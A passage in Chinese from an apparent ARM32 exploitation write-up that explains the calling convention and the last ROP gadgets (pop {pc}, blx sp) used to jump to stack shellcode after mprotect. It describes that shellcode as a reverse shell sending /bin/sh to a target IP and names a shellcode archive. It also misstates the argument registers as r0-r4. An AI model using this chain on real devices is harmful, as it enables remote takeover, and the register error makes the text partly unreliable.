这里补充一下arm32函数调用的规则，arm32的函数前四个参数通过r0-r4传递，更多的参数从右到左压栈，函数的返回地址一般是在进入函数前保存在LR寄存器上，在进入`mprotect`前，`lr=pop_pc`，这就是`mprotect`的返回地址。这些是在函数调用前（如下图），调用者需要做的事，前面我们的gadget也是为了完成这个任务。
在进入函数后，函数自己首先要将一些寄存器的值压栈，以维护调用者的环境（特别注意lr寄存器，保存着返回地址），然后开辟栈空间，在退出函数时，反过来将寄存器状态恢复，不同的是压入栈的lr的值将会被恢复到pc，所以在函数调用前后sp是不会变化的，pc则指向调用前的lr
24.pop_pc：`pop {pc}`，`pc=blx_sp;sp=shellcode`
25.blx_sp：`blx sp`，`pc=sp`
26.跳转到栈上执行shellcode

##### Shellcode
这里的shellcode是向目标ip和端口发起tcp连接，并将/bin/sh重定向到该连接
shellcode的编写可以参考这个网站，里面有不同架构的各种shellcode的实现 https://shell-storm.org/shellcode/index.html